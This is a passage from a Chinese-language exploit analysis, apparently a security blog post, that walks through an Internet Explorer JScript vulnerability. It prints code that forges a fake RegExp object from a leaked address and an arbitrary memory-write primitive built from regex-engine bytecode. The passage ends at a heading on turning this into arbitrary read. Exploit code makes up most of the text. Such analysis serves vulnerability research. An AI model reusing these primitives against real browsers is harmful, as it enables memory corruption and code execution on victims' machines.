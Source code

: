 获得 fakeRegExpAddr 后，再次借助 makeVariant，将 fakeRegExpAddr 封装到一个 type=0x81 的 variant，随后第 4 次借助漏洞进行布局，在内存中搜索得到伪造的 RegExp 对象，到这里就获得了一个精心伪造的 RegExp 对象，借助 RegExp.test() 函数测试是否伪造正确：

```
var extendPropertyName3 = "\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF\uFFFF" + makeVariant(0x0081, fakeRegExpAddr); // regexp type
 
for(var i = refsLimit; i >= leakIndex; i--)
    nrefs[i] = null;
 
for(var i = 0; i < 0x1000; i++)
    propHolders[i][extendPropertyName3] = 1;
 
while(--leakIndex >= 0)
    try{
        if((typeof nrefs[leakIndex]) === "object")
            break;
        else
            nrefs[leakIndex] = null;
    }catch(e){}
 
if(leakIndex == -1)
    throw new Error("Could not find fake RegExp.");
else{}
 
var fakeRegExp = nrefs[leakIndex];
var reTestResult = fakeRegExp.test("t"); // RegExp.test()
 
if(!reTestResult)
    throw new Error("Fake RegExp did not respond correctly to test execution, creation may have failed.");

```

借助上述伪造的 RegExp 对象就可以实现任意地址写：

```
function write(where, what) {
    try {
        var byteCodeStack = String.fromCharCode.apply(null, [0x0077, 0x0110, 0x0000, 0x0000, 0x0000, ((what & 0xFF) << 8) | 0x03, (what & 0xFFFF00) >> 8, ((where & 0xFF) << 8) | (((what & 0xFF000000) >> 24) & 0xFF), (where & 0xFFFF00) >> 8, (0x07 << 8) | (((where & 0xFF000000) >> 24) & 0xFF)]);
        fakeRegExp.test(byteCodeStack);
    } catch(e) {}
    return byteCodeStack;
}

```

这个 write 函数是整个利用中最精彩的部分，这个原语的构造细节涉及到 Jscript 正则引擎的虚拟机知识，利用的编写者肯定对 Jscript 模块的正则表达引擎非常熟悉。由于笔者并不擅长这块，这部分等待有能力的读者进行补充分析。

### 从任意地址写到任意地址读
